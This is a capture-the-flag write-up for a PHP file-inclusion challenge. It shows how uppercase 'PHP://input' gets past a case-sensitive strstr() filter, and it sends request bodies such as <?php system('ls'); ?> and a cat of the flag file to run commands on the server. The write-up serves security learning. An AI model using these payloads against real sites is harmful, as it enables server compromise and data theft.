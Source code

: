 # Web_php_include

![Screenshot from 2021-07-24 21-40-57](https://user-images.githubusercontent.com/87865134/126871958-8e399564-d702-42ee-bdc0-f607b645ebfa.png)

- `php://`
  - Accessing various I/O streams
- `php://input` 
  - is a read-only stream that allows you to read raw data from the request body. php://input is not available with enctype="multipart/form-data"
- Reference: https://www.php.net/manual/en/wrappers.php.php
- Application filter this method by using strstr(): 
  
  `strstr(string $haystack, string $needle, bool $before_needle = false): string|false`
  - This function is case-sensitive. For case-insensitive searches -> can bypass

- Use Burp Repeater to send payload to list all file in current directory:  
  - `?page=PHP://input`
  - in request body: `<?php system('ls'); ?>`    

![Screenshot from 2021-07-24 21-54-28](https://user-images.githubusercontent.com/87865134/126872294-dc57ab31-4be8-41c1-8f92-3d1398a41272.png)

  - >Flag in file fl4gisisish3r3.php

- Send payload to show content of file fl4gisisish3r3.php
  - `?page=PHP://input`
  - in request body: `<?php system('cat fl4gisisish3r3.php'); ?>`

![Screenshot from 2021-07-24 21-57-50](https://user-images.githubusercontent.com/87865134/126872380-91d5eda1-27d6-4c63-944e-da0b4347f66f.png)
